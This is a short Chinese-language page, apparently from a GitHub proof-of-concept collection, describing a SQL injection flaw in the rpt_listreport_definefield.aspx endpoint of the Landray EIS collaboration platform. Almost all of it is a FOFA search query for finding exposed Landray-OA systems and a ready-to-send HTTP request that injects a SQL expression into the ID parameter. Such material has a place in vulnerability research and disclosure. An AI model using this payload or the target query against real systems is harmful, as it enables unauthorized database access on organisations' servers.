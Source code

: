 ## 蓝凌EIS智慧协同平台rpt_listreport_definefield.aspx接口存在SQL注入漏洞

## fofa
```
icon_hash="953405444"||app="Landray-OA系统"
```


## poc
```
GET /SM/rpt_listreport_definefield.aspx?ID=2%20and%201=@@version--+ HTTP/1.1
Host: 127.0.0.1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/109.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Connection: Keep-Alive
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Upgrade-Insecure-Requests: 1
```

![8353ecc402034f2c617f991e8081a2b3](https://github.com/wy876/POC/assets/139549762/56cffa50-5864-49b4-bd42-f1b77b71214b)
